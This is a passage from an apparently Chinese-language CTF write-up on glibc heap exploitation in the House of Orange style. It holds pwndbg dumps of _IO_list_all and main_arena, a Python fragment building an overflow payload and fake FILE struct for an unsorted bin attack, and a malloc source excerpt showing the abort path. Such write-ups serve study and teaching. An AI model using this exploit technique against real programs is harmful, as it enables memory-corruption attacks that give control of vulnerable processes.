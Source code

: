 

实现修改如下

```sh
pwndbg> x /10gx &_IO_list_all
0x7ffff7dd2520 <_IO_list_all>:	0x00007ffff7dd1b78	0x0000000000000000
0x7ffff7dd2530:	0x0000000000000000	0x0000000000000000
0x7ffff7dd2540 <_IO_2_1_stderr_>:	0x00000000fbad2086	0x0000000000000000
0x7ffff7dd2550 <_IO_2_1_stderr_+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd2560 <_IO_2_1_stderr_+32>:	0x0000000000000000	0x0000000000000000

pwndbg> x /10gx 0x00007ffff7dd1b78
0x7ffff7dd1b78 <main_arena+88>:	0x000055555577a010	0x00005555557584f0
0x7ffff7dd1b88 <main_arena+104>:	0x00005555557584f0	0x00007ffff7dd2510
0x7ffff7dd1b98 <main_arena+120>:	0x00007ffff7dd1b88	0x00007ffff7dd1b88
0x7ffff7dd1ba8 <main_arena+136>:	0x00007ffff7dd1b98	0x00007ffff7dd1b98
0x7ffff7dd1bb8 <main_arena+152>:	0x00007ffff7dd1ba8	0x00007ffff7dd1ba8
```



利用

```python
	# Control program
	p = 'B' * 0x400
	p += p64(0)
	p += p64(0x21)
	p += 'B' * 0x10

	# fake file
	f = p64(0)		   # old top chunk prev_size
	f += p64(0x100)    # old top chunk size
	f += p64(0) + p64(_IO_list_all - 0x10) # unsoted bin attack实现修改 _IO_list_all
```



### 劫持流程

若下次申请大小为0x10的时候, 由于unsorted bin 的结构已经被修改, 0x10 <= 2*SIZE_SZ，就会触发malloc_printerr

```c
for (;; )
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
        {
          bck = victim->bk;
          if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
              || __builtin_expect (victim->size > av->system_mem, 0))
            malloc_printerr (check_action, "malloc(): memory corruption",// 执行该函数
                             chunk2mem (victim), av);
          size = chunksize (victim);
```
